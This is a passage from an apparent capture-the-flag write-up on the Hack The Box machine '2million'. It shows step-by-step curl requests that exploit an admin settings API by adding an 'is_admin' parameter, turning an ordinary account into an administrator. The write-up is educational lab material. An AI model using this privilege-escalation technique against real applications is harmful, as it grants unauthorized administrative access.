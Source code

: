 So I decided to try to update my permissions, but got an invalid content type:

```shell
curl -sv -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=lk3t1iclf5ro9vk7i52uc4118m" | jq

[redacted]
{
  "status": "danger",
  "message": "Invalid content type."
}
```

As the application doesn't respond with an `Unauthorised` error, we can try to append the `Content-type` header as the app responds in JSON:

```shell
curl -sv -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=lk3t1iclf5ro9vk7i52uc4118m" -H 'Content-Type: application/json'| jq

[redacted]
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

We now know that we need to add the parameter email to the PUT petition:

```shell
curl -sv -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=lk3t1iclf5ro9vk7i52uc4118m" -d '{"email":"gitblanc@gitblanc.com"}' -H 'Content-Type: application/json' | jq

[redacted]
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

So let's add one more parameter: `is_admin` and set it to true (1):

```shell
curl -sv -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=lk3t1iclf5ro9vk7i52uc4118m" -d '{"email":"gitblanc@gitblanc.com", "is_admin":1}' -H 'Content-Type: application/json' | jq

[redacted]
{
  "id": 13,
  "username": "gitblanc",
  "is_admin": 1
}
```

> Now we're admins :), check with `curl -s http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=lk3t1iclf5ro9vk7i52uc4118m" | jq`
